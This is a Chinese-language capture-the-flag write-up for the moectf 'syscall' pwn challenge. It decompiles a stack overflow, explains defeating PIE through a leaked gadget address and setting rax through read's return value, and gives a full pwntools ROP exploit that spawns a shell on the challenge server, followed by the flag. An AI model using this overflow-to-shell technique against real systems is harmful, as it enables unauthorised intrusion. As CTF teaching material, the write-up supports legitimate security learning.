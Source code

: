 # syscall

这题倒是没什么关于题目本身的幺蛾子，但是我tm又抄错题了，所以还是耗了我几个小时……

-   Arch:     amd64-64-little
    <Br>RELRO:    Full RELRO
    <br>Stack:    No canary found
    <Br>NX:       NX enabled
    <Br>PIE:      PIE enabled

差一点全明星阵容。但是开了nx对rop影响很大，因为没法提前知道rop地址。还好main函数送了个礼物。

```c
undefined8 main(void)
{
  puts("I\'ll give you a gift first!");
  printf("%p\n",gadget);
  puts("Go Go Go!!!");
  vuln();
  return 0;
}
```

泄露了gadget地址，那么可以根据这个地址算出基地址，就和普通rop没区别了。看看gadget里面准备了什么好玩意。

![gadget](../images/gadget.png)

再次提醒ghidra玩家，这段gadget默认不会被反编译，一定记得右键汇编选择Disassemble进行反编译（但是大家都去用ida pro了，谁用ghidra呢？找不到资源的我只能默默哭泣）。

```c
void vuln(void)
{
  undefined local_48 [64];
  read(0,local_48,128);
  read(0,local_48,60);
  return;
}
```

还是很直白。不用多想了，看gadget和题目就知道这次的目标是利用syscall getshell。我在之前并没有做过syscall类型的rop题，所以查了一些资料。首先是[64位下syscall的使用](https://blog.csdn.net/weixin_43363675/article/details/117944212)。这篇帖子告诉我们64位下使用syscall getshell需要利用execve这个函数，之前常用的system是不行的，因为system不属于系统调用，没有系统调用号。执行execve系统调用需要满足一下条件：

- rax = 0x3b
<br>rdi="/bin/sh"
<BR>rsi = 0x0
<br>rdx = 0x0
<br>SYSCALL         等同于execve("/bin/sh", 0, 0);

回顾上面给的gadget，pop rdi，pop rsi，pop rdx和SYSCALL都有了，那rax该怎么办呢？汇编好的大佬们肯定知道，rax在64位汇编中装着上一次执行函数的返回值，但是我汇编不好，没想起来，于是搜到了类似的[内容](https://cloud.tencent.com/developer/article/1965872)。这就是为什么会有两次read了，一次read构造rop，一次read写入rax，因为read是有返回值的，返回值为实际读取到的字节数。因此我们只需要在第二个read处发送0x3b个任意字节就可以将rax设为0x3b也就是execve的系统调用号了。

顺便更正一个内容。我之前在做rop64的时候实验过1个字符的，当时觉得第二次读入的内容会完全覆盖第一次读入的内容。实际上不完全是这样，如果第一次read往变量s读入abcde，第二次往变量s读入b，输出结果为bbcde。看下面的脚本。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>
int main() {
    char input[8];
    read(0,input,7);
    printf("%s",input);
    read(0,input,1);
    printf("%s",input);
}
```

主要还是没有c语言基础啊。不过有了上面的知识就能写出exp了。

```python
from pwn import *
p=remote("124.223.158.81",27005)
gadget_offset=0x001011a9
pop_rdi_offset=0x001011b1
pop_rsi_rdx_offset=0x001011b3
bin_sh_offset=0x00104010
syscall_offset=0x001011b6
p.recvuntil("I\'ll give you a gift first!\n")
gadget_addr=int(p.recvuntil("\n")[:-1],16)
elf_base=gadget_addr-gadget_offset
pop_rdi=elf_base+pop_rdi_offset
pop_rsi_rdx=elf_base+pop_rsi_rdx_offset
bin_sh=elf_base+bin_sh_offset
syscall=elf_base+syscall_offset
payload=b'a'*0x48+p64(pop_rdi)+p64(bin_sh)+p64(pop_rsi_rdx)+p64(0)+p64(0)+p64(syscall)
p.sendafter("Go Go Go!!!",payload)
payload=b'a'*0x3b
p.send(payload)
p.interactive()
```

最开始pop_rdi的地址抄错了，我真的是服了。

- ### Flag
  > moectf{n0w_14m_4_m45732_0f_5y5c411_h4h4_7h475_23411y_c242y}